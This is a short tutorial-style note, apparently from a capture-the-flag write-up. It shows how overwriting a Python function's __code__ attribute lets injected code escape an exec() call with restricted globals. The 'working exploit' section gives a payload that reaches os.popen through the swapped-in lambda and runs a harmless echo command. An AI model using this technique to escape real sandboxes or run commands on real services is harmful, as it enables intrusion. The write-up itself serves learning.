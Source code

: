 *2022-05-15*

#guide 

> [!Abstract] Introduction
>The `__code__` attribute of a Python function can be overwritten, allowing us to break out of a constrained namespace and use an elevated one.

---

We can view all the attributes of a Python object using `print(func.__dir__())`. If we run this on the `print` function object for example, be able to see its `__code__` attribute.

```python
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> print(print.__dir__())  
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__new__',  
'__str__', '__setattr__', '__delattr__', '__init__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

We can overwrite this attribute with the code of another function or a lambda. Lambdas are generally easier when working with code injections.

## Example
```python
def func1():
	print(1)

func1()

func1.__code__ = (lambda: print(2)).__code__

func1()
```

Output:
```
1
2
```

## Namespace Escalation
We can use this property to escalate to a namespace with more functions available. Consider the following `exec()` injection with a limited namespace.

> [!Note]
> Notice that the globals available to use in the `exec()` function have been limited. In this case, only `print()` can be called.

#### Failed exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print(os.popen('whoami').read())"

exec(f"{injection}", builtins)
```

Output:
```shell
Traceback (most recent call last):
  File "/home/james/htb/amidst-us/namespace.py", line 13, in <module>
    exec(f"{injection}", builtins)
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We get the error that the `os` module is not defined, which make sense since it's not included in the restricted namespace of the `exec`.

Now, lets try the same code with a different injection. This time we're going to overwrite the `__code__` attribute of `print` with that of a custom lambda. We'll then run `print()`.

#### Working exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print.__code__ = (lambda: print(os.popen('echo EXPLOITED!').read())).__code__; print()"

exec(f"{injection}", builtins)
```

Output:
```
EXPLOITED!
```

> [!Success]
> The `print` function's code is being overwritten with that of our own lambda, but instead of using the constrained namespace of the `exec`, it's using the namespace of `new_print` which has access to the `os` module and all the default Python built-ins. 

With this change, `print(os.popen('echo EXPLOITED!').read())` is running as if it's not in the constrained namespace.

---

# References
* https://stackoverflow.com/questions/6886493/get-all-object-attributes-in-python

---